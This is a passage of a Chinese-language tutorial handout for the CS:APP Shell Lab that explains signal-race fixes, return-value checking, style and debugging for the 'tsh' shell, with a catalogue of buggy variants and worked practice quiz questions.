sleep 轮询的结果出人意料：总耗时与 sigsuspend 差不多，并没有“每次多等 1 秒”。原因是 sleep 被信号打断时会提前返回：SIGCHLD 到达，处理程序运行完，sleep 就返回了，循环再检查一次条件，发现前台作业已经没有了。问题出在 SIGCHLD 恰好到达于“检查条件”与“开始 sleep”之间的那一刻：处理程序先运行完，sleep 随后开始，没有信号再来打断它，只能睡满 1 秒。正常运行时这个窗口很窄，很少碰到；在两者之间注入 50 毫秒延迟、把窗口放大之后，10 次 /bin/true 就从 0.5 秒变成了 1.6 秒，多出来的时间就是“睡满 1 秒”的那几次。这与第 2.6 节 pause 写法的问题是同一个：检查条件和开始睡眠是两个分开的动作，中间可以插进一个信号。
sigsuspend 把“解除阻塞”和“睡眠”合成一个原子操作。调用之前 SIGCHLD 被阻塞，检查条件时它不会插进来；sigsuspend 把阻塞集合换成 prev（不阻塞 SIGCHLD）并睡眠，SIGCHLD 只能在睡眠开始之后被处理，处理完 sigsuspend 返回，再检查条件。于是 wait_fg 只有三行：
static void
wait_fg(const sigset_t *prev)
{
while (fgpid(job_list) != 0)
sigsuspend(prev);
}wait_fg 有一个前提，调用时 SIGCHLD 已经阻塞，prev 是阻塞之前的阻塞集合。run_job 和 fg 都是在阻塞区内调用它的（第 4.6、3.5 节）。如果调用时 SIGCHLD 没有阻塞，检查条件与 sigsuspend 之间就又有了窗口。条件用 while 而不是 if：sigsuspend 被任何一个信号唤醒都会返回，例如另一个后台作业结束引起的 SIGCHLD，这时前台作业可能还在运行，要再检查一次。
6.2 先 fork、后 addjob：阻塞要在 fork 之前#
第 2.5 节用 图 8 说明了这个竞争：子进程可能在 addjob 之前就结束并被 sigchld_handler 回收，处理程序在作业列表中找不到它，什么也不删；随后 eval 才 addjob，把一个已经不存在的进程加进了列表。在 tsh 中实际看一看后果。把阻塞挪到 fork 之后，并让父进程在 fork 之后睡 0.1 秒（注入延迟），运行一个立即结束的程序：
tsh> /bin/true & # 变体 no_block：后台
[1] (17150) /bin/true &
tsh> jobs
[1] (17150) Running /bin/true &/bin/true 早已结束，jobs 中却一直有它，而且永远不会被删除。前台运行时后果更严重：addjob 把它记为前台作业，wait_fg 等待它不再是前台作业，可唯一能改变这一点的 SIGCHLD 已经处理过了，shell 永远等下去。实验中用 timeout 在 3 秒后结束它，退出码 124 表示是 timeout 把它杀掉的：
tsh> /bin/true # 变体 no_block：前台
[timeout 退出码 124]参考解答在 fork 之前阻塞 SIGCHLD、SIGINT、SIGTSTP，SIGCHLD 即使早到，也只能待处理，等 addjob 之后恢复阻塞集合时（前台作业则是 wait_fg 中的 sigsuspend）才被处理。SIGINT、SIGTSTP 也要阻塞，因为它们的处理程序会读作业列表：如果在 addjob 之前按下 ctrl-c，fgpid 还找不到这个作业，信号就丢了；阻塞之后，ctrl-c 等到作业已经在列表中才被处理。阻塞与恢复写成一对函数，所有在处理程序之外读写作业列表的地方都用它们包起来：
static void
block_job_signals(sigset_t *prev)
{
sigset_t mask;
Sigemptyset(&mask);
Sigaddset(&mask, SIGCHLD);
Sigaddset(&mask, SIGINT);
Sigaddset(&mask, SIGTSTP);
Sigprocmask(SIG_BLOCK, &mask, prev);
}
static void
restore_signals(const sigset_t *prev)
{
Sigprocmask(SIG_SETMASK, prev, NULL);
}子进程是在阻塞区内 fork 出来的，它继承了阻塞集合，而阻塞集合在 execve 之后保留（第 1.14 节），所以 run_child 要在 execve 之前用 prev 恢复，否则运行的程序会一直阻塞着 SIGINT、SIGTSTP，ctrl-c 对它不起作用。
6.3 查找作业与使用作业：放进同一个阻塞区#
bg、fg、kill 都是“先查找作业，再使用它”：查到 job 指针，然后改 state、发信号。第一版常常只把“修改”放进阻塞区，查找写在阻塞区之外，理由是查找只读不写。下面把 builtin_kill 的查找挪到阻塞之前，并在查找之后睡 0.5 秒（注入延迟），去 kill 一个 0.8 秒后自己结束的作业：
tsh> /bin/sleep 0.8 & # 变体 find_outside
[1] (17289) /bin/sleep 0.8 &
tsh> kill %1
Terminated
[tsh 退出码 143]被杀死的不是作业，而是 shell 自己：退出码 143 等于 128 + 15，表示 shell 被 SIGTERM 终止。图 12 画出了经过：kill %1 查到作业 1，拿到指向它所在槽位的指针；在睡眠的 0.5 秒中，sleep 0.8 结束，SIGCHLD 没有被阻塞，sigchld_handler 回收它，deletejob 调用 clearjob 把这个槽位清空，pid 变成 0；然后 builtin_kill 用这个指针发信号，执行的是 kill(0, SIGTERM)。kill 的 pid 参数为 0 时，信号发给调用者所在进程组中的每一个进程（第 2.4 节），shell 自己就在其中。参考解答在同样的输入下正常报告“Job [1] (17295) terminated by signal 15”。
图 12 查找在阻塞区之外时：查到的指针在使用之前所指的槽位已被清空，kill(0, SIGTERM) 把信号发给了 shell 自己所在的进程组
job 指针指向 job_list 中的一个槽位，槽位里放的是什么，随时可能被处理程序改掉。“查找”得到的结论（作业 1 存在，pid 是 17289）只在信号被阻塞期间才一直成立。所以查找、判断、修改、发信号都要放进同一个阻塞区，参考解答的 builtin_bgfg、builtin_kill、builtin_jobs 都是这样写的。
6.4 父子进程都调用 setpgid#
第 4.3 节留下了一个问题：子进程已经 setpgid(0, 0) 建了组，父进程为什么还要 setpgid(pid, pid)？因为 fork 之后谁先运行不确定。如果父进程先运行，恢复阻塞集合、进入 sigsuspend，这时用户按下 ctrl-c，sigint_handler 执行 kill(-pid, SIGINT)，而子进程还没来得及运行 setpgid，以 pid 为组号的进程组还不存在，kill 失败。图 13 画出了这个窗口。
图 13 子进程建组之前的窗口：只有子进程 setpgid 时，窗口中按下的 ctrl-c 找不到进程组；父进程也 setpgid 之后，组在父进程返回之前就已存在
实验中让子进程在建组之前睡 0.3 秒（注入延迟），前台运行 /bin/sleep 2，0.15 秒时向 shell 发 SIGINT，相当于在窗口中按下 ctrl-c：
只有子进程 setpgid（变体 child_pgid_only）：
kill error
[tsh 退出码 1]
父进程写成 setpgid(0, 0)（变体 parent_pgid00_slow）：
kill error
[tsh 退出码 1]
父子都 setpgid，子进程不改回 SIGINT 的处理方式（变体 both_pgid_slow_inherit）：
[tsh 退出码 0]
父子都 setpgid，子进程先把 SIGINT、SIGTSTP 改回 SIG_DFL 再恢复阻塞集合（参考解答的写法）：
Job [1] (18106) terminated by signal 2
[tsh 退出码 0]前两种写法中，kill 找不到进程组，返回 −1，forward_to_fg 用 sio_error 报错并结束了 shell。第 4.3 节“父进程写成 setpgid(0, 0)”的问题在这里暴露出来：它没有替子进程建组，与不写一样。
第三种写法中，进程组在父进程 setpgid 之后就存在了，SIGINT 确实发给了子进程，却没有任何效果，sleep 照常运行 2 秒后正常结束。原因是这个信号到达得太早：子进程此时还没有 execve，它的阻塞集合中有 SIGINT（继承自 shell 的阻塞区），信号只能待处理；子进程恢复阻塞集合的那一刻，信号被处理，而处理它的是从 shell 继承来的 sigint_handler。子进程那份作业列表中没有前台作业（父进程是在 fork 之后才 addjob 的），处理程序什么也不做，信号就这样被“吃掉”了。参考解答在恢复阻塞集合之前先把 SIGINT、SIGTSTP 改回 SIG_DFL，待处理的 SIGINT 按默认动作终止子进程，这才得到第四种结果。tshref 没有这一步，这个窗口只在 execve 之前的极短时间内存在，正常使用中几乎碰不到；参考解答补上它，是因为改动只有两行，而且没有坏处。
父进程的 setpgid 还有另一面：它也可能失败。子进程如果已经 execve，父进程再改它的进程组，内核拒绝，返回 EACCES。让父进程先睡 0.2 秒再 setpgid（注入延迟），失败就退出：
tsh> /bin/sleep 1 # 变体 pgid_fatal
setpgid error: Permission denied
[tsh 退出码 1]这种失败是正常的：它说明子进程已经自己建好了组，父进程这一步不需要做了。所以父进程的 setpgid 不能用“失败就退出”的 Setpgid，要单独判断 errno：
/* The child may already have called execve: EACCES is expected */
if (setpgid(pid, pid) < 0 && errno != EACCES)
unix_error("setpgid error");除了 EACCES，还有没有别的正常失败？在注入延迟的实验中，父进程睡 0.2 秒再 setpgid：对 ./nonexist（子进程 execve 失败后退出，成为僵死进程）setpgid 成功，对 /bin/true（已经 execve）返回 Permission denied。另一个可能的错误 ESRCH（没有这个进程）只在子进程已经被回收时出现，例如把阻塞挪到 fork 之后（变体 no_block_strict）：
tsh> /bin/true & # 变体 no_block_strict
setpgid error: No such process
[tsh 退出码 1]在参考解答中，fork 之前已经阻塞了 SIGCHLD，子进程在父进程 setpgid 之前不可能被回收，ESRCH 不会出现；如果出现了，说明阻塞写错了，让 shell 报错退出正好能暴露它。
第七部分 完整的 tsh.c 与提交前的打磨#
sdriver 得到 100 分只是第一步。实验说明还有一整套人工检查的要求：每个系统调用都检查返回值，每行不超过 80 列，每个函数有注释，eval 拆成若干辅助函数，不靠 sleep 同步（第 0.2 节）。这一部分先给出参考解答剩下的部分和验证结果，再讲这些要求怎样落实，最后是调试方法和全部错误写法的一览表。
7.1 参考解答的组成与验证#
参考解答在 handout 的 tsh.c 上增加了 382 行：前面几部分讲过的 16 个函数（图 9），8 个包装函数，以及它们的原型。原型放在已给的原型之后，函数定义放在 eval 之后；tsh.c 已给的部分一行未改。sim/sol/ 中的 assemble.py 把 eval.c、wrappers.c、handlers.c 三个文件装进 handout 的 tsh.c，得到完整的参考解答，第三至六部分的每个错误写法都是在它上面改动一处。
static pid_t Fork(void);
static void Kill(pid_t pid, int sig);
static void Setpgid(pid_t pid, pid_t pgid);
static void Sigprocmask(int how, const sigset_t *set, sigset_t *oldset);
static void Sigemptyset(sigset_t *set);
static void Sigaddset(sigset_t *set, int signum);
static void Dup2(int oldfd, int newfd);
static void Close(int fd);
static void block_job_signals(sigset_t *prev);
static void restore_signals(const sigset_t *prev);
static void wait_fg(const sigset_t *prev);
static int open_redirects(struct cmdline_tokens *tok, int *infd, int *outfd);
static void close_redirects(int infd, int outfd);
static void run_child(struct cmdline_tokens *tok, const sigset_t *prev,
int infd, int outfd);
static void run_job(struct cmdline_tokens *tok, int bg, char *cmdline);
static void builtin_jobs(struct cmdline_tokens *tok);
static struct job_t *find_job(const char *arg, int is_jid, int id, int group);
static void builtin_bgfg(struct cmdline_tokens *tok);
static void builtin_kill(struct cmdline_tokens *tok);
static void forward_to_fg(int sig);所有自写函数都加了 static，只在 tsh.c 内部可见。实验要求补全的 eval 和三个处理程序不能加 static，它们的原型已经由 tsh.c 给出。
在默认环境上，参考解答的检查结果如下（sim/s1_ref）：
超过 80 列的行数：0，含制表符的行数：2
Score: 100/100 # ./sdriver，每个 trace 4 遍
gcc -Wall -Werror -fsyntax-only tsh.c：退出码 0
Score: 100/100 # ./sdriver -i 10，每个 trace 10 遍两行含制表符的是 handout 原有的代码，不是自写的部分。sdriver 默认把每个 trace 跑 4 遍，-i 10 跑 10 遍，fork.c 每次随机安排父子进程的先后，跑的遍数越多，越有可能碰到只在某种顺序下才出现的错误。偶尔失败一次，就说明还有竞争没有处理好（第六部分）。
7.2 每个系统调用都检查返回值#
实验说明要求检查每个系统调用的返回值。C 的系统调用不会抛出异常，出错时只返回一个特殊值（通常是 −1）并设置 errno，不检查就等于假设它永远成功。第 4.1 节 execve 失败后 shell 一分为二，第 6.4 节 kill 找不到进程组，都是“假设成功”会出事的例子。
常见问题：为什么 C 不替我们检查返回值？
因为出错的消息从内核出来时就只是一个数，一路上没有任何一层替你处理它。下面的程序让同一次失败的 kill（进程 999999 不存在）在三个层次上各走一遍：直接执行 syscall 指令时，内核把 −ESRCH 放在 %rax 中返回；经过 glibc 的 kill 函数，这个负数被换成返回值 −1，原因放进全局变量 errno；如果调用者不看返回值，程序就若无其事地往下走。
C 诞生时没有异常机制，库函数也无从知道调用者希望失败时怎么办：同样是 kill 失败，内置命令 kill 应当打印“No such process”后继续运行，而包装函数 Kill 的做法是退出（表 23 中列出了几种不同的处理）。所以 C 把决定权连同检查的责任一起留给了调用者。有异常的语言把这一步变成了默认动作，例如 Python 中同样的调用会抛出 ProcessLookupError，不处理就终止程序，失败不会被悄悄忽略。csapp.c 的包装函数相当于在 C 中补上一个“失败就退出”的默认策略。
/* rawkill.c：同一次失败的 kill，在三个层次上看到的结果 */
#include <errno.h>
#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <sys/syscall.h>
int main(void)
{
long rax;
int ret;
/* 1. 直接执行 syscall 指令：内核在 %rax 中返回 -errno */
__asm__ volatile ("syscall" : "=a"(rax)
: "a"((long)SYS_kill), "D"(999999L), "S"((long)SIGTERM)
: "rcx", "r11", "memory");
printf("syscall 指令：%%rax = %ld\n", rax);
/* 2. 经过 glibc 的 kill：返回 -1，原因放进 errno */
errno = 0;
ret = kill(999999, SIGTERM);
printf("kill()：返回 %d，errno = %d（%s）\n", ret, errno, strerror(errno));
/* 3. 不检查返回值：程序照常往下走 */
kill(999999, SIGTERM);
printf("不检查：什么也没发生，程序继续运行\n");
return 0;
}$ ./rawkill
syscall 指令：%rax = -3
kill()：返回 -1，errno = 3（No such process）
不检查：什么也没发生，程序继续运行
$ python3 -c "import os; os.kill(999999, 15)"
...
ProcessLookupError: [Errno 3] No such process逐个写 if (... < 0) unix_error(...) 很快就让代码变得冗长，csapp.c 中首字母大写的包装函数就是为此而写的：调用系统调用，检查返回值，失败时调用 unix_error 打印出错信息并退出。csapp.c 不能链接进 tsh（第 3.4 节），所以要把用到的包装函数写进 tsh.c。参考解答写了 8 个，都是同一个样子：
static pid_t
Fork(void)
{
pid_t pid;
if ((pid = fork()) < 0)
unix_error("fork error");
return pid;
}
static void
Kill(pid_t pid, int sig)
{
if (kill(pid, sig) < 0)
unix_error("kill error");
}包装函数写好之后，要把原来直接调用的地方全部换掉，否则包装函数只是摆设。替换完可以用一个简单的脚本检查：列出自写函数中仍然直接调用的系统调用（sim/rawcalls.py），逐个确认是有意为之。参考解答剩下的是 表 23 中这些。
表 23 参考解答中没有经过包装函数的系统调用（sim/s1_ref）
| 所在函数 | 直接调用 | 原因 |
|---|---|---|
| open_redirects | open（两处） | 失败时打印 tshref 的提示语，shell 继续运行（第 4.2 节） |
| run_child | execve | 返回就是失败，紧接着打印“Command not found”并 exit（第 4.1 节） |
| run_job | setpgid | 要容忍 EACCES（第 6.4 节） |
| sigchld_handler | sigfillset、sigprocmask（两处）、waitpid | 处理程序中不能用 unix_error，改用 sio_error；waitpid 返回 −1 且 errno 为 ECHILD 是正常结束（第 5.3、5.4 节） |
| forward_to_fg | sigfillset、sigprocmask（两处）、kill | 处理程序中不能用 unix_error，改用 sio_error（第 5.4 节） |
| wait_fg | sigsuspend | 唯一不检查返回值的调用，见下文 |
它们都是“失败就退出”不合适的地方，各有各的处理。处理程序中不能调用 unix_error，是因为它用的 fprintf 和 exit 都不是异步信号安全的。sigsuspend 是唯一不检查的：它总是返回 −1、errno 为 EINTR，表示“被信号打断了”，这正是调用它的目的，没有别的结果可以检查。
检查返回值是否“值得”，可以这样想：一个失败如果会让 shell 进入错误状态而不自知，就必须检查；检查之后怎样处理，取决于这个失败对 shell 意味着什么。sigprocmask、dup2 失败说明程序本身有错误，退出最合适；kill、setpgid、open 失败可能是正常情形，要按具体情况处理。
7.3 风格：行宽、注释与函数划分#
行宽不超过 80 列。超长的行通常出现在函数调用和字符串上，断行的办法有三种：在参数之间断开，续行与第一个参数对齐（如 run_child 的原型）；在运算符之后断开；把长字符串拆成相邻的两段，C 编译器会自动把相邻的字符串字面量连接起来。检查用一行命令：
awk 'length > 80 {print FILENAME ":" FNR ": " length}' tsh.c
grep -n $'\t' tsh.c # 找出含制表符的行制表符在不同编辑器中显示的宽度不同，用空格缩进才能保证 80 列在任何地方都是 80 列。
注释写在函数开头，说明这个函数做什么、对调用者有什么要求，例如 wait_fg 的注释写明“调用者必须已经阻塞 SIGCHLD”，find_job 的注释写明“在信号阻塞时调用”。函数内部不写逐行复述代码的注释（例如在 job->state = BG; 后面写“把状态改为后台”），只在代码本身说不清“为什么”的地方写一句，参考解答中这样的行内注释只有一处，就是父进程 setpgid 为什么容忍 EACCES。
函数的划分以“一个函数做一件能说清的事”为准。eval 只做分派（第 3.1 节）；重复出现的步骤（阻塞与恢复、打开与关闭重定向文件、查表与提示语、等待前台作业）各写成一个函数；相似但规则不同的部分（bg、fg 与 kill 的参数检查）不强行合并（第 3.5 节）。合并到什么程度没有唯一的答案，判断标准是合并之后函数里会不会充满“如果是这种情况就……”的分支。
7.4 调试方法与环境中的坑#
tshref 就是规格。凡是不确定的输出，先在 tshref 上试一遍：输入同样的命令，看它打印什么、什么时候打印。写完一个功能，用 ./sdriver -t 编号 -V 比较自己的输出和参考输出，-V 会把两边的完整输出和 diff 都显示出来，第三至六部分的大多数对照就是这样得到的。一个 trace 怎样驱动 shell，可以直接读 trace 文件：NEXT 表示等 shell 打印下一个提示符，WAIT 表示等作业发来同步信号，SIGNAL 表示让作业继续，SIGINT、SIGTSTP 表示向 shell 发信号。
行为对不上时，看系统调用比看代码更直接：strace -f ./tsh 显示 shell 和它的子进程调用了哪些系统调用、参数和返回值是什么，第 2.9 节就是用它看清 tshref 的做法的。偶发的错误用 ./sdriver -i 20 多跑几遍；可疑的地方可以像第六部分那样临时加一个 usleep，把时间窗口放大，看看问题会不会每次都出现。
环境方面有一个与 CPU 架构有关的坑。tshref、sdriver 和各个测试用的可执行文件都是 x86-64 的（第 0.1 节），tsh 也要在 x86-64 的 Linux 上编译。如果在 Apple Silicon 的 Mac 上的 Linux 虚拟机里对共享文件夹运行过 make，得到的 tsh 是 AArch64 的；回到 x86-64 的容器中，tsh 比 tsh.c 新，make 认为不需要重新编译，运行时却失败。下面在默认环境上模拟这个情形，把 tsh 文件的 ELF 头中的机器类型改成 AArch64，另存为 tsh_arm，再执行它：
$ file tsh_arm
tsh_arm: ELF 64-bit LSB pie executable, ARM aarch64, version 1 (SYSV), ...
$ ./tsh_arm
cannot execute binary file: Exec format error
$ touch tsh; make
make: Nothing to be done for 'all'.内核拒绝执行另一种架构的程序，sdriver 中每个 trace 都会失败。遇到“改了代码、make 说什么都不用做、结果全错”的情形，先用 file tsh 看它是哪种架构，再 touch tsh.c && make 或 make clean && make 重新编译。规律是：构建产物和运行它的机器是绑在一起的，在哪台机器上测试，就在哪台机器上编译。
另一个与共享文件夹有关的现象出在保存的那一刻。编辑器保存、或者同步工具把文件传到另一端，都需要一点时间，如果恰好在文件只写了一部分时运行 make，编译器读到的是一个半截的 tsh.c。下面把参考解答截去后一半再编译，报错指向文件最后一行，还会连带出一串“unused variable”，看起来与刚才的修改毫无关系：
$ make tsh
tsh.c:588:5: error: expected declaration or statement at end of input
tsh.c:588:9: error: unused variable 'is_bg' [-Werror=unused-variable]
tsh.c:587:11: error: unused variable 'endbuf' [-Werror=unused-variable]
...遇到这种报错，先确认文件已经保存完整（看一眼文件末尾，或者 wc -l tsh.c），再运行一次 make。文件完整之后，同样的命令正常编译，trace01 通过（sim/s7_extra）。
7.5 错误写法一览#
表 24 汇总了第三至六部分出现的全部错误写法。左边是能看到的现象，查错时从现象出发，找到对应的小节。
表 24 错误写法一览（都在默认环境上实测，sim/variants.py 与 sim/s1_ref–s5_race）
| 现象 | 原因 | 改法 | 小节 |
|---|---|---|---|
| 编译报 return-local-addr | 解析函数返回局部数组的地址 | 输出参数、返回结构体，或不单独写函数 | 3.3 |
| 编译报 unknown conversion type character | 把用户输入的 %1 写进了格式串 | 写 %%，或用 %s 输出原始参数 | 3.3 |
| clang 或 -pedantic 下报 label followed by a declaration | case 标号后直接写声明 | 用花括号把这个 case 括起来 | 3.1 |
| 链接报 undefined reference to Kill | 调用了 csapp.c 中的包装函数 | 在 tsh.c 中自己写包装函数 | 3.4 |
| trace07 中 jobs 没有输出 | listjobs 只写在“有重定向”的分支里 | 没有重定向时输出到 STDOUT_FILENO | 3.2 |
| trace28 超时 | kill 发了 SIGKILL | 发 SIGTERM | 3.4 |
| trace15、16、29 少一行 | bg 之后没有打印“[jid] (pid) 命令行” | 补上这一行 | 3.5 |
| 命令执行两遍，有两个 shell | execve 失败后 return | 打印提示语后 exit | 4.1 |
| 不带重定向的程序读标准输入时 Bad file descriptor | 子进程无条件关闭了 0 号描述符 | 只在有重定向时 dup2、close | 4.2 |
| 前台作业读终端时 Input/output error，而不是被停止 | 子进程没有把 SIGTTIN、SIGTTOU 恢复为默认 | execve 之前 Signal(…, SIG_DFL) | 4.4 |
| trace25 多出“nohup: Command not found” | 把含 "nohup" 的 argv 交给 execve | 从 argv[1] 开始 | 4.5 |
| 作业在外部被 SIGCONT 继续后，jobs 仍显示 Stopped，或者作业从列表中消失 | 没有加 WCONTINUED，或者加了却没有单独处理 WIFCONTINUED | 加 WCONTINUED，ST 改为 BG | 5.2 |
| 已结束的后台作业一直显示为 Running，ps 看到僵死进程 | 处理程序只调用一次 waitpid | while 循环到返回 0 或 −1 | 5.3 |
| 编译报 incompatible-pointer-types，参数类型是 sigset_t ** | 对已经是指针的 prev 又取了一次地址 | 直接传 prev | 5.4 |
| 第一个子进程结束时 shell 打印“sigprocmask error”后退出 | sigfillset 的返回值判断写反，把成功的 0 当成失败 | 判断 < 0 | 5.4 |
| ctrl-c 后 shell 卡住，CPU 占满 | 转发信号的处理程序用 while 判断前台作业 | 用 if | 5.5 |
| 等待前台作业时 shell 占满 CPU | 忙等 | sigsuspend | 6.1 |
| 偶尔多等 1 秒 | sleep 轮询，信号落在检查与 sleep 之间 | sigsuspend | 6.1 |
| 作业已结束仍在列表中；前台作业时 shell 永远等待 | fork 之后才阻塞 SIGCHLD | fork 之前阻塞，addjob 之后恢复 | 6.2 |
| kill 一个刚好结束的作业，shell 自己被 SIGTERM 终止 | 查找作业在阻塞区之外 | 查找与使用放进同一个阻塞区 | 6.3 |
| 刚启动作业就按 ctrl-c，shell 报 kill error 退出 | 只有子进程 setpgid，或父进程写成 setpgid(0, 0) | 父进程也 setpgid(pid, pid) | 6.4、4.3 |
| shell 报 setpgid error: Permission denied 退出 | 父进程的 setpgid 用了“失败就退出” | 容忍 EACCES | 6.4 |
| 改了代码，make 什么也不做，sdriver 全部失败 | tsh 是在另一种架构上编译的 | file tsh 检查，touch tsh.c 后重新编译 | 7.4 |
| 编译报 expected declaration or statement at end of input，以及一串 unused variable | 文件还没有保存或同步完整 | 确认文件完整后再 make | 7.4 |
第八部分 测验题型与单选例题#
学期末的 Lab 测验是纸笔考试，全部是单选题，每个实验 5 题、每题 2 分。2025 年 Shell Lab 的 5 道题分别考了：tsh 与真实 shell 的功能差别（不支持管道和搜索路径、支持重定向与后台作业），信号阻塞与解除阻塞的时机，内置命令的细节（jobs 要阻塞信号、kill 发什么信号、nohup 怎样处理 SIGHUP），sigchld_handler 中 WIFSTOPPED 与 WIFCONTINUED 的填空，以及等待前台作业的正确写法。这五个方面正好对应本讲义的第四至六部分，下面的例题按同样的方向编写，答案均匀分布在 A–D，每个选项都给出分析。题中涉及的行为都在默认环境上实测过（sim/s1_ref–s6_quiz）。
例 1（单选）关于 tsh 与真实 shell 的区别，说法正确的是：
A. tsh 支持管道，例如 /bin/ls | /bin/grep tsh
B. tsh 运行程序时会在 PATH 中查找，输入 cat 也能运行 /bin/cat
C. tsh 不把终端交给前台作业，前台作业读终端时会收到 SIGTTIN 而被停止
D. tsh 不需要捕获 SIGINT，ctrl-c 由内核直接发给前台作业
答案
C
tsh 从不调用 tcsetpgrp，终端的前台进程组始终是 tsh 自己所在的组，作业（包括“前台作业”）对终端来说都是后台进程，读终端时收到 SIGTTIN，按默认动作停止，tsh 报告“stopped by signal 21”（第 4.4 节的伪终端实验，tshref 相同）。选项 A 错，parseline 不认识 |，tsh 不支持管道。选项 B 错，execve 不搜索 PATH，输入 cat 时 tsh 打印“cat: Command not found”，要写 /bin/cat。选项 D 错，ctrl-c 产生的 SIGINT 发给终端的前台进程组，也就是 tsh 所在的组，作业在自己的组中收不到，必须由 tsh 捕获后用 kill(-pid, SIGINT) 转发（第 5.1 节）。
例 2（单选）在运行外部程序的流程中，下列哪一种安排会导致“已经结束的作业一直留在作业列表中”？
A. fork 之前阻塞 SIGCHLD，addjob 之后恢复
B. fork 之后、addjob 之前才阻塞 SIGCHLD
C. fork 之前阻塞，子进程在 execve 之前恢复阻塞集合
D. 前台作业运行期间，用 sigsuspend 临时解除对 SIGCHLD 的阻塞
答案
B
fork 之后才阻塞，就留下了一个窗口：子进程在窗口内结束，sigchld_handler 回收它，却在作业列表中找不到它；随后 addjob 把它加进去，再也不会被删除。第 6.2 节的实验中，后台运行 /bin/true 之后 jobs 一直显示它为 Running，前台运行时 shell 永远等待。选项 A 是正确的做法。选项 C 是子进程必须做的事，否则运行的程序会一直阻塞着这些信号。选项 D 是 wait_fg 的做法，sigsuspend 原子地解除阻塞并睡眠，SIGCHLD 只能在睡眠开始后被处理。
例 3（单选）作业 2 的进程号是 4321。用户输入 kill %-2，tshref 调用的系统调用是：
A. kill(4321, SIGTERM)
B. kill(-4321, SIGKILL)
C. kill(-2, SIGTERM)
D. kill(-4321, SIGTERM)
答案
D
参数中的负号表示“发给整个进程组”，作业号仍然是 2：先用 getjobjid 找到作业 2，再向以它的 pid 为组号的进程组发 SIGTERM（第 3.4 节，第 2.9 节的 strace）。选项 A 是 kill %2 的做法，只发给作业的那个进程。选项 B 的信号错了，内置命令 kill 发的是 SIGTERM，发 SIGKILL 会让 trace28 超时，因为测试程序 myterm1 要在 SIGTERM 的处理程序中通知 runtrace。选项 C 把作业号当成了进程组号。
例 4（单选）sigchld_handler 中 waitpid 的选项是 WNOHANG | WUNTRACED | WCONTINUED，循环体中只判断了 WIFSTOPPED（改为 ST）与 WIFSIGNALED（打印），其余情况都调用 deletejob。一个后台作业先被停止，再在 shell 之外被 kill -CONT 继续，之后输入 jobs，结果是：
A. 作业显示为 Running，与 tshref 相同
B. 作业不再显示，尽管它的进程仍在运行
C. 作业仍显示为 Stopped
D. sigchld_handler 不会因“继续”而被调用，作业仍显示为 Stopped
答案
B
加了 WCONTINUED，waitpid 就会报告“继续”；这种状态既不是停止也不是被信号终止，落进了“其余情况”，作业被删除，而进程还在运行（第 5.2 节的变体 no_cont_branch）。选项 A 是正确处理 WIFCONTINUED 时的结果。选项 C 是不加 WCONTINUED 时的结果（变体 no_wcontinued）。选项 D 错在前半句：子进程被 SIGCONT 继续时内核会给父进程发 SIGCHLD，处理程序会被调用，只是不加 WCONTINUED 时 waitpid 不报告它。
例 5（单选）下面四种等待前台作业的写法中，符合实验要求（不忙等、不用 sleep、只在 sigchld_handler 中回收子进程）且没有竞争的是（prev 是阻塞 SIGCHLD 之前的阻塞集合）：
A. 调用前已阻塞 SIGCHLD；while (fgpid(job_list) != 0) sigsuspend(&prev);
B. 不阻塞 SIGCHLD；while (fgpid(job_list) != 0) ;
C. 不阻塞 SIGCHLD；while (fgpid(job_list) != 0) sleep(1);
D. 不阻塞 SIGCHLD；while (fgpid(job_list) != 0) waitpid(pid, &status, 0);
答案
A
选项 A 就是参考解答的 wait_fg（第 6.1 节）：检查条件时 SIGCHLD 被阻塞，不会插在检查与睡眠之间；sigsuspend 原子地换成 prev 并睡眠。选项 B 是忙等，第 6.1 节的实验中等 2 秒的作业，shell 自己用掉 1.9 秒 CPU。选项 C 用 sleep 轮询，SIGCHLD 恰好落在检查与 sleep 之间时要多睡一整秒，实验说明也明确禁止。选项 D 在 eval 中调用 waitpid，与 sigchld_handler 抢着回收同一个子进程，违反“只在一处回收”的要求，而且被 ctrl-z 停止时它不会返回。
例 6（单选）关于内置命令 nohup ./prog 的实现，说法正确的是：
A. 交给 execve 的参数数组从原 argv 的第二个元素开始；子进程在恢复阻塞集合之后再阻塞 SIGHUP
B. 应当在 shell 进程中把 SIGHUP 设为 SIG_IGN，子进程会继承
C. 用 SIG_IGN 忽略 SIGHUP 与阻塞 SIGHUP，在任何程序上效果都相同
D. nohup 是内置命令，因此像 jobs 一样在 shell 进程中直接执行，不需要 fork
答案
A
argv[0] 是 "nohup"，要运行的程序是 argv[1]，参数数组是 &argv[1]（第 4.5 节）。恢复阻塞集合用 SIG_SETMASK，会把阻塞集合整个换掉，所以阻塞 SIGHUP 必须在它之后。选项 B 改的是 shell 自己，shell 从此也不受 SIGHUP 影响，而且以后运行的每个程序都继承了忽略。选项 C 错，第 4.5 节的 hupself 先清空阻塞集合、再给自己发 SIGHUP，阻塞时被终止，忽略时活了下来。选项 D 错，nohup 要运行一个程序，必须 fork；它被列为“内置命令”只是因为 shell 要对它做特殊处理。
例 7（单选）子进程中 execve 失败后，打印“Command not found”之后误写成 return 而不是 exit。执行 `printf './nonexist\n/bin/echo hello\nquit\n' | ./tsh -p`，hello 会被打印几次？
A. 0 B. 1 C. 2 D. 3
答案
C
return 让子进程回到 eval、再回到 main 的循环，于是有两个 shell。输入来自管道，父进程第一次 fgets 时已把三行都读进 stdio 缓冲区，fork 时子进程得到这份缓冲区的副本，两个 shell 都执行了 /bin/echo hello（第 4.1 节实测）。选项 B 是正确实现的结果。选项 A、D 都没有依据。
例 8（单选）sigint_handler 开头阻塞了所有信号，然后写成 `while ((pid = fgpid(job_list)) != 0) kill(-pid, SIGINT);`。运行 trace08（前台作业 myintp 给 shell 发 SIGINT）时会发生什么？
A. 与正确写法一样通过
B. 前台作业收不到 SIGINT，一直运行
C. shell 自己被 SIGINT 终止
D. shell 在处理程序中空转，runtrace 等不到下一个提示符而超时
答案
D
前台作业收到 SIGINT 后终止，但要等 sigchld_handler 调用 deletejob，fgpid 才返回 0；sigint_handler 阻塞了所有信号，SIGCHLD 只能待处理，while 的条件永远成立。第 5.5 节的实验中，shell 占用九成以上的 CPU，runtrace 报告“timed out waiting for next shell prompt”。选项 B 错，第一次 kill 就把 SIGINT 发出去了。选项 C 错，SIGINT 被 tsh 捕获，不会终止 tsh。选项 A 错，处理程序应当用 if，只做一次判断。
第九部分 速查与自测#
9.1 一页纸速查#
表 25 按函数归纳了 tsh 每一部分的做法和关键细节。
表 25 tsh 各部分的要点
